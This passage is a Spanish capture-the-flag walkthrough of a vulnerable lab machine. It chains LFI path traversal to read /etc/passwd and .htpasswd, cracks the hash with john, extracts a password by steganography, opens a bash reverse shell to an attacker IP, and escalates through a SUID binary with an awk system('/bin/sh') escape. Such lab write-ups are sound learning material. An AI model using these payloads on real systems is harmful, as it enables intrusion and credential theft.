Muy probablemente hemos encontrado la contraseña del usuario `n30`.

Además, ya sabíamos por `/etc/passwd` que ese usuario existe:

```text
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
```

Así que ya tenemos una combinación muy prometedora:

- usuario: `n30`
- contraseña: `P4$$w0rd`

---

## Dónde probar las credenciales de n30

La mejor opción es el servicio del **puerto 12320**, porque era la terminal web de `ShellInABox`.

Probamos esas credenciales ahí y funcionan.

Entramos y obtenemos una shell como `n30`, como en la **imagen 9**.



---

## Acceso inicial como n30

Ya dentro, comprobamos el entorno del usuario.

Vemos su home, incluyendo:

- `.bash_history`
- `.bashrc`
- `.ssh`
- etc.

Tus notas ya señalan algo muy importante:
> Gran parte de la resolución ha sido por intuición, detalle y enlazar pistas.  
> No ha sido una explotación “estándar” de libro.

Y eso es totalmente cierto. La máquina premia observación y correlación.

---

## Reverse shell para trabajar más cómodamente

Aunque ya tienes una shell web, lo práctico es abrir una reverse shell hacia Kali para trabajar con más comodidad.

### Listener con penelope

En Kali:

```bash
penelope -p 4444
```

### Generación del payload
Usas una web como revshells.com e introduces:

- tu IP atacante: `192.168.184.128`
- tu puerto: `4444`

como en la **imagen 10**.



Seleccionas una bash reverse shell y obtienes algo tipo:

```bash
sh -i >& /dev/tcp/192.168.184.128/4444 0>&1
```

### Qué hace ese payload

#### `sh -i`
Lanza una shell interactiva.

#### `>& /dev/tcp/192.168.184.128/4444`
Redirige entrada y salida a una conexión TCP hacia tu Kali.

#### `0>&1`
Hace que la entrada estándar también vaya por el mismo canal.

En resumen:
- la víctima abre una conexión saliente hacia tu máquina;
- tú capturas esa conexión en el listener;
- recibes una shell remota.

---

## Enumeración local y por qué `.bash_history` es importantísimo

Una vez con mejor shell, toca enumerar.

El archivo `.bash_history` es especialmente importante.

### Qué es `.bash_history`

Es el historial de comandos ejecutados por el usuario en Bash.

### Por qué a veces es oro puro en labs
En entornos reales puede revelar:
- credenciales;
- rutas;
- errores humanos;
- comandos administrativos;
- binarios raros;
- scripts usados;
- técnicas de escalada previas.

En labs y máquinas vulnerables, muchas veces si está presente y accesible es porque el autor quiere dejar una pista.

Tus notas lo resumen bien: en muchos entornos de práctica modernos se limpia o desactiva precisamente para que no sea demasiado fácil. Si aparece lleno de comandos ajenos, casi siempre merece revisión inmediata.

---

## Revisión de .bash_history

Hacemos:

```bash
cat .bash_history
```

Y aparecen comandos que nosotros no ejecutamos. Lo importante es esto:

```bash
morpheus 'BEGIN {system("/bin/sh")}'
ls -l /usr/bin/morpheus
...
cat /root/flag.txt
...
```

### Qué nos está regalando este historial

Nos está diciendo prácticamente todo el camino de escalada:

1. existe un binario llamado `morpheus`;
2. está en `/usr/bin/morpheus`;
3. puede ejecutarse con una sintaxis tipo awk:
   ```bash
   morpheus 'BEGIN {system("/bin/sh")}'
   ```
4. el usuario anterior o el autor llegó incluso a leer `/root/flag.txt`.

Es una pista casi completa de explotación.

---

## Explicación del payload `morpheus 'BEGIN {system("/bin/sh")}'`

Esto es muy importante entenderlo.

La sintaxis recuerda a `awk`.

En `awk`, un bloque `BEGIN` se ejecuta al inicio, antes de procesar entradas.  
`system("/bin/sh")` ejecuta un comando del sistema.

Entonces:

```bash
'BEGIN {system("/bin/sh")}'
```

significa algo como:

> Al comenzar, ejecuta `/bin/sh`.

Si el binario `morpheus` es realmente una copia, wrapper o variante relacionada con awk y además tiene privilegios elevados, esto puede darte una shell con esos privilegios.

---

## Verificación del binario morpheus

Hacemos:

```bash
ls -la /usr/bin/morpheus
```

Resultado:

```bash
-r-sr-x--- 1 root n30 662240 Dec  8  2018 /usr/bin/morpheus
```

### Interpretación de permisos

Desglosemos:

```text
-r-sr-x---
```

#### `-`
Es un archivo normal

#### `r-s`
Permisos del propietario (`root`)
- `r` lectura
- `-` la escritura no está para ese bloque
- `s` indica que tiene **SUID**

#### `r-x`
Permisos del grupo (`n30`)
- lectura
- ejecución

#### `---`
Otros usuarios no tienen permisos

### Lo crítico: el bit SUID

El bit **SUID** significa que, cuando se ejecuta el binario, corre con el **UID efectivo del propietario del archivo**, no con el del usuario que lo lanza.

Aquí el propietario es **root**.

Eso implica que si el binario permite ejecutar comandos arbitrarios, y tú puedes lanzarlo, esos comandos se ejecutarán con privilegios de root.

---

## Por qué n30 puede ejecutarlo

Porque el grupo del archivo es `n30` y los permisos del grupo incluyen ejecución:

```text
r-x
```

Entonces el usuario `n30` puede ejecutarlo.

---

## Explotación final

Ejecutamos exactamente lo que nos sugería el historial:

```bash
morpheus 'BEGIN {system("/bin/sh")}'
```

Y obtenemos una shell `#`.

Comprobamos:

```bash
whoami
```

Resultado:

```bash
root
```

Ya hemos escalado.

---

## Lectura de la flag

Una vez como root:

```bash
cd /root
ls
cat flag.txt
```

Y obtenemos la flag final.

---

## Qué pasó realmente en esta máquina

Aunque la cadena completa parezca un poco “idea feliz”, si la miras fríamente tiene lógica:

1. Enumeración inicial de puertos.
2. Descubrimiento de un `robots.txt` con `file_view.php`.
3. Detección de que el parámetro `file` faltaba.
4. Prueba en GET sin éxito.
5. Cambio a POST y confirmación de LFI.
6. Lectura de `/etc/passwd`.
7. Lectura de configuración de NGINX.
8. Descubrimiento de `.htpasswd`.
9. Crackeo del hash de `Tr1n17y`.
10. Acceso al panel protegido en 1337.
11. Descubrimiento de `n30`.
12. Revisión del código fuente.
13. Hallazgo de la imagen oculta `h1dd3n.jpg`.
14. Idea de usar esteganografía.
15. Extracción de `P4$$w0rd`.
16. Login como `n30` en ShellInABox.
17. Reverse shell para trabajar mejor.
18. Revisión de `.bash_history`.
19. Descubrimiento del binario SUID `morpheus`.
20. Ejecución del payload y obtención de root.

---

## Conceptos clave aprendidos

### 1. Robots.txt no protege nada
Solo orienta a bots. Si ves rutas ahí, hay que probarlas.

### 2. GET y POST no son lo mismo
Un parámetro puede existir pero ser leído solo desde el body de una petición POST.

### 3. LFI da muchísimo juego
No te limites a `/etc/passwd`. Piensa en:
- configs;
- logs;
- credenciales;
- código fuente.

### 4. Las configuraciones de NGINX son oro
Te dicen rutas reales, archivos de auth, puertos y estructura interna.

### 5. Los `.htpasswd` pueden dar acceso real
Aunque sean hashes, si la contraseña es débil, se crackean rápido.

### 6. Source code y comentarios HTML siguen siendo fundamentales
La imagen oculta estaba comentada, no visible.

### 7. Esteganografía puede ser el siguiente paso lógico
Si una imagen aparece escondida y el reto es CTF/lab, hay que planteárselo.

### 8. `.bash_history` puede regalar la privesc
No siempre estará, pero si está y contiene comandos ajenos, hay que leerlo.

### 9. SUID + binario con capacidad de ejecutar comandos = root
Ese es el corazón de la escalada final.

---

## Comandos utilizados

```bash
ip a
sudo nmap -n -sn 192.168.184.128/24
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.184.132
ffuf -u http://192.168.184.132/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
ffuf -u http://192.168.184.132:12322/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
curl -X POST -k https://192.168.184.132:12322/file_view.php -d "file=../../../../../../../etc/passwd"
curl -X POST -k https://192.168.184.132:12322/file_view.php -d "file=../../../../../../../etc/nginx/sites-available/default"
curl -X POST -k https://192.168.184.132:12322/file_view.php -d "file=../../../../../../../var/www/p4ss/.htpasswd"
john hash --wordlist=/usr/share/wordlists/rockyou.txt
steghide extract -sf img.jpeg -p n30
cat n30.txt
penelope -p 4444
cat .bash_history
ls -la /usr/bin/morpheus
morpheus 'BEGIN {system("/bin/sh")}'
whoami
cd /root
cat flag.txt
```

---

## Cierre

Esta máquina no es difícil por una sola vulnerabilidad devastadora, sino por el encadenamiento de muchas piezas pequeñas:

- observación;
- interpretación correcta del método HTTP;
- explotación de LFI;
- lectura de configs;
- crackeo de credenciales;
- acceso web autenticado;
- descubrimiento de recursos ocultos;
- esteganografía;
- y remate con `.bash_history` + SUID.

Es una máquina muy buena para aprender una lección clave de pentesting:

> muchas veces el acceso total no sale de un exploit mágico, sino de saber leer bien cada pista, no saltarte nada y conectar ideas pequeñas hasta construir el camino completo.

---

# Apéndice de herramientas y conceptos usados en esta máquina

## Burp Suite, explicado con calma

**Burp Suite** es una plataforma de pruebas web.  
No es un simple “capturador de tráfico”, sino una caja de herramientas para manipular cómo habla tu navegador con una aplicación web.

### Qué hace en esencia

Se coloca entre:

```text
navegador <-> Burp <-> servidor web
```

Entonces puede:

- ver peticiones;
- ver respuestas;
- modificar parámetros;
- cambiar métodos HTTP;
- repetir pruebas muchas veces;
- automatizar ataques.

### Módulos que aquí importan

#### Proxy
Interceta tráfico del navegador.

#### Repeater
Te deja tomar una request ya capturada y reenviarla mil veces cambiando detalles.  
Eso es ideal para LFI porque puedes probar rutas distintas sin tener que volver al navegador todo el rato.

#### Intercept
Es el modo “parar la petición antes de que salga”.

### Por qué fue tan útil aquí

Porque nos permitió:
- capturar la request a `file_view.php`;
- ver exactamente cómo iba;
- cambiar GET por POST;
- mover el parámetro al body;
- observar de inmediato si el backend reaccionaba distinto.

---

## GET vs POST, explicado desde cero

Esta parte es crítica.

### GET
En **GET**, los parámetros normalmente viajan en la URL:

```text
/file_view.php?file=test
```

Eso significa que el servidor leerá el valor desde la query string.

### POST
En **POST**, los parámetros viajan normalmente en el cuerpo de la petición:

```http
POST /file_view.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

file=test
```

### Por qué el mismo parámetro puede fallar en GET y funcionar en POST

Porque el desarrollador puede haber escrito el PHP de forma que lea solo:

```php
$_POST['file']
```

y no:

```php
$_GET['file']
```

Entonces, aunque tú pongas `?file=test` en la URL, el script realmente no lo está mirando.

### Cómo pensarlo mentalmente

No pienses “el parámetro no existe”.  
Piensa:

> “quizá existe, pero lo estoy enviando por el canal equivocado”.

---

## Qué significa exactamente `Content-Type: application/x-www-form-urlencoded`

Ese encabezado le dice al servidor:

> “el cuerpo de esta petición contiene campos de formulario codificados como clave=valor”.

Ejemplo:

```text
file=../../../../../../../etc/passwd
```

Si el backend espera un formulario POST, este es el formato clásico que entiende.

---

## `curl`, explicado bien

Comando usado:

```bash
curl -X POST -k https://192.168.184.132:12322/file_view.php -d "file=../../../../../../../etc/passwd"
```

### Qué es `curl`

`curl` es una herramienta de línea de comandos para hacer peticiones HTTP/HTTPS y otros protocolos.

Piensa en ella como un “navegador sin interfaz gráfica”, pero mucho más controlable.

### Flags

#### `-X POST`
Fuerza el método HTTP `POST`.

#### `-k`
Ignora errores del certificado TLS/SSL.  
Muy típico en laboratorios porque suelen usar certificados autofirmados.

#### `-d`
Envía datos en el cuerpo de la petición.  
Además, suele implicar `POST` si no se ha indicado otro método.

### Por qué es tan buena aquí

Porque te permite reproducir exactamente lo que descubriste con Burp, pero ya desde terminal, de forma rápida y repetible.

---

## LFI, aún más a fondo

**LFI** = **Local File Inclusion**.

### Qué hace de fondo

La aplicación toma una ruta o nombre de archivo controlado por el usuario y la usa para:

- incluirlo;
- leerlo;
- mostrarlo;
- procesarlo.

### Ejemplos peligrosos en PHP

```php
include($_POST['file']);
readfile($_POST['file']);
file_get_contents($_POST['file']);
require($_REQUEST['file']);
```

Si no validan bien, tú puedes controlar el archivo.

### Qué es el path traversal

Cuando escribes:

```text
../../../../../../../etc/passwd
```

estás subiendo directorios con `../` hasta alcanzar la raíz y luego bajando a la ruta objetivo.

Eso se llama **directory traversal** o **path traversal**.

---

## Por qué `/etc/passwd` se usa siempre primero

Porque:

- suele ser legible;
- confirma que la LFI existe;
- revela usuarios reales;
- te dice shells y homes;
- casi nunca rompe nada.

No suele dar credenciales, pero sí **contexto**.

---

## Por qué leer la configuración de NGINX fue una gran idea

Cuando sabes que el servicio es NGINX, una de las primeras cosas útiles suele ser:

```text
/etc/nginx/sites-available/default
```

Porque ese archivo te da la arquitectura real del sitio.

### Cosas que puedes descubrir ahí

- `root` reales;
- directorios web;
- autenticación básica;
- proxies;
- includes;
- ficheros `.htpasswd`;
- puertos;
- rutas internas.

### Qué pasó aquí

Nos reveló:

```nginx
auth_basic_user_file /var/www/p4ss/.htpasswd;
```

Eso fue la puerta a credenciales.

---

## Qué es `.htpasswd`

`.htpasswd` es un archivo usado clásicamente para autenticación básica HTTP.

Contiene líneas con este formato:

```text
usuario:hash
```

No guarda la contraseña en claro, sino un hash compatible con el sistema de autenticación del servidor.

### Por qué interesa tanto

Porque si puedes leerlo:

- ya tienes usuarios reales;
- puedes intentar crackear el hash;
- a veces esas mismas credenciales valen para otros servicios.

---

## `john`, explicado mejor

Comando:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### Qué es John the Ripper

Es una herramienta de cracking de contraseñas.

### Qué hace realmente

1. lee un hash;
2. identifica o asume su formato;
3. prueba contraseñas;
4. aplica el algoritmo correspondiente;
5. compara el resultado con el hash;
6. si coincide, encontró la contraseña.

### Qué es un ataque de diccionario

No está probando “todas las contraseñas posibles”, sino una lista conocida de contraseñas comunes.

Eso es mucho más rápido y suele funcionar sorprendentemente bien cuando la contraseña es débil.

---

## `rockyou.txt`, explicado

`rockyou.txt` es un diccionario enorme de contraseñas reales filtradas.  
Se usa muchísimo en laboratorios porque:

- contiene millones de contraseñas comunes;
- muchas máquinas están diseñadas con passwords débiles;
- es la primera opción lógica antes de pasar a fuerza bruta pura.

---

## `steghide`, explicado mejor

Comando:

```bash
steghide extract -sf img.jpeg -p n30
```

### Qué es `steghide`

Es una herramienta de **esteganografía**.

### Qué es la esteganografía

Es esconder información dentro de otro archivo aparentemente inocente, por ejemplo:

- imagen,
- audio,
- a veces otros portadores.

No es cifrar el archivo visible, sino **ocultar un segundo contenido dentro**.

### Flags

#### `extract`
Modo extracción.

#### `-sf img.jpeg`
`-sf` = *stego file*, el archivo portador.

#### `-p n30`
Contraseña o passphrase usada para desbloquear el contenido oculto.

### Qué significa el resultado

```text
wrote extracted data to "n30.txt"
```

Que la imagen sí contenía datos embebidos y que la passphrase correcta permitió recuperarlos.

---

## ShellInABox, más técnico

**ShellInABox** es una aplicación que expone una shell del sistema a través del navegador usando HTML, JavaScript y backend de terminal.

No deja de ser un puente entre:

- tu navegador;
- y una terminal real del sistema.

### Por qué importa

Porque si entras con credenciales válidas, no estás entrando a una simple página: estás entrando a una **consola real del sistema**.

---

## Reverse shell, explicada mejor

Payload:

```bash
sh -i >& /dev/tcp/192.168.184.128/4444 0>&1
```

### Qué hace por dentro

- abre una shell interactiva;
- redirige salida y errores a una conexión TCP;
- conecta hacia tu Kali;
- tú recibes la shell en tu listener.

### Por qué a veces se prefiere esto sobre una web shell

Porque te da:
- más comodidad;
- mejor interacción;
- más libertad;
- y una sesión fuera del navegador.

---

## `penelope`, explicado

`penelope` es una herramienta pensada para recibir y gestionar reverse shells de forma más amigable.

### Qué hace

- se pone a escuchar en un puerto;
- cuando la víctima conecta, captura la shell;
- intenta mejorarla o manejarla mejor.

Es una alternativa cómoda a usar un `nc -lvnp puerto`.

---

## `.bash_history`, explicado a fondo

### Qué es

Es el historial de comandos ejecutados por el usuario en Bash.

### Dónde está
Suele vivir en:

```text
~/.bash_history
```

### Cuándo se escribe
Normalmente Bash escribe historial al cerrar la sesión, aunque depende de configuración.

### Por qué es tan útil

Porque te puede mostrar:
- credenciales usadas;
- scripts tocados;
- rutas;
- pruebas de escalada;
- binarios interesantes;
- errores del usuario.

### Por qué en CTF/labs puede ser “demasiado bueno”

Porque muchas veces está puesto a propósito como pista.  
Y eso pasó aquí: el historial prácticamente te daba el exploit.

---

## El bit SUID, muy bien explicado

Archivo:

```text
-r-sr-x--- 1 root n30 ... /usr/bin/morpheus
```

### Qué es SUID

SUID = **Set User ID**.

Cuando un binario tiene SUID y lo ejecutas, el proceso corre con el **UID efectivo del propietario**, no con el del usuario que lo lanzó.

Si el propietario es `root`, el programa corre con privilegios efectivos de root.

### UID real vs UID efectivo

#### UID real
Quién eres tú realmente.

#### UID efectivo
Con qué permisos se ejecuta el proceso.

Un binario SUID root permite que el proceso tenga `euid=0` aunque tú seas un usuario normal.

### Por qué esto es peligroso

Porque si el binario:
- ejecuta comandos,
- abre shell,
- permite escapes,
- o interpreta expresiones peligrosas,

puedes convertir eso en una shell root.

---

## Por qué `morpheus 'BEGIN {system("/bin/sh")}'` funciona

Esa sintaxis recuerda a `awk`.

### `BEGIN`
Bloque que se ejecuta al inicio.

### `system("/bin/sh")`
Llama a `/bin/sh`.

Si el binario tiene privilegios efectivos de root por SUID, esa shell se abre con esos privilegios.

### Traducción humana

> “Ejecuta una shell del sistema dentro de un programa que ya está corriendo como root”.

Y eso te da root.

---

## Qué te enseña esta máquina realmente

No se gana con “un exploit famoso”.

Se gana con:

- leer bien mensajes;
- no ignorar `robots.txt`;
- entender HTTP;
- pensar en LFI de verdad;
- revisar configuraciones;
- crackear hashes;
- mirar comentarios HTML;
- probar esteganografía cuando la intuición lo pide;
- y no dejar pasar un `.bash_history` expuesto.

Eso es pentesting de laboratorio muy formativo.
